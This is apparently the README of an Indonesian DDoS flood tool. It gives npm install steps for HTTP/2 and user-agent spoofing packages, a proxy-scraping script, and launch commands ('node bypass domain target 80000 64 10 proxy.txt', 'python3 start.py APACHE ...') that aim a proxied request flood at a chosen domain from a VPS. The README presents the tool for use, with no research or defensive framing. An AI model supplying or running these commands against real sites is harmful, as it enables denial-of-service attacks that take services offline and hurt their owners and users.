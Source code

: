 INSTALL REQIURETMENT

Ketik apt update <br>
Ketik apt install npm <br>
python3 scrape.py (muncul pilahn Y/N, ketik N) <br>
npm i sockopt <br>
npm i hpack <br>
npm i fake-useragent <br>
npm i request <br>
npm i gradient-string <br>
npm i cheerio <br>
npm i randomstring <br>
npm i user-agents <br>
npm i axios <br>



node bypass domain target 80000 64 10 proxy.txt


python3 start.py APACHE domain target 4 894 proxy.txt 61 1693

Program akan berjalan apabila menggunakan client VPS atau OS Linux
